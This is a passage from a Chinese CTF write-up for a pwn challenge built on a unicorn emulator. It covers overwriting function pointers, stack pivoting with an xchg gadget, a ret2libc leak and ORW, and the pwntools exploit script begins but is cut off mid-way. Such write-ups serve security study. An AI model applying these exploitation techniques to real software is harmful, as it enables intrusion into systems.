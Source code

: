 覆盖`uc_strerror`为0x400E42，覆盖`setbuf`为`setcontext+53`,然后使unicorn报错退出回到setbuf的位置。

此时rdi是bss上stdin指针内的值，通过覆盖stdin指向bss，再伪造srop的sigreturn frame就可以进一步栈迁移进行orw。

但是遇到的问题就是，不能在bss上连续写入，只能用push一点点写，赛场上也是因为这个导致心态爆炸exp没写完。

### 赛后思路

回到学校清醒了一下脑子，重新调整思路，发现在赛中是钻了牛角尖。rax,rdi的值都是可控的，同时libc中存在有`xchg eax,esp;ret`这种gadget，其实是可以直接进行任意地址的栈迁移，不需要借助srop来调整寄存器布局。而且bss上的code同样可控，在输入opcode的时候，后面部署上rop链，虽然没有打印出来libc地址，但是只需要借助正常的ret2libc重新泄漏，栈迁移也可以完成。

(当然其实配合mov操作与syscall，在虚拟机中进行任意地址读，就可以泄漏libc地址，但是懒得写了)

### 最终exp

```python
from pwn import *

BYTE = 0 << 4
WORD = 1 << 4
DWORD = 2 << 4
QWORD = 3 << 4

REG = 0
MEM = 1


def getImm(op_switch, dst):
    if(op_switch == BYTE):
        return p8(dst)
    elif(op_switch == WORD):
        return p16(dst)
    elif(op_switch == DWORD):
        return p32(dst)
    elif(op_switch == QWORD):
        return p64(dst)


def call(type=REG, imm=BYTE, dst=0):
    opcode = p8(0x10)
    opcode += p8(imm+type)
    opcode += getImm(imm, dst)
    return opcode


def push(type=REG, imm=BYTE, dst=0):
    opcode = p8(0xe)
    opcode += p8(imm+type)
    opcode += getImm(imm, dst)
    return opcode


def pop(type=REG, imm=BYTE, dst=0):
    opcode = p8(0xd)
    opcode += p8(imm+type)
    opcode += getImm(imm, dst)
    return opcode


def mov(reg=0, imm=BYTE, dst=0):
    opcode = p8(1)
    opcode += p8(imm+3)
    opcode += p8(reg)
    opcode += getImm(imm, dst)
```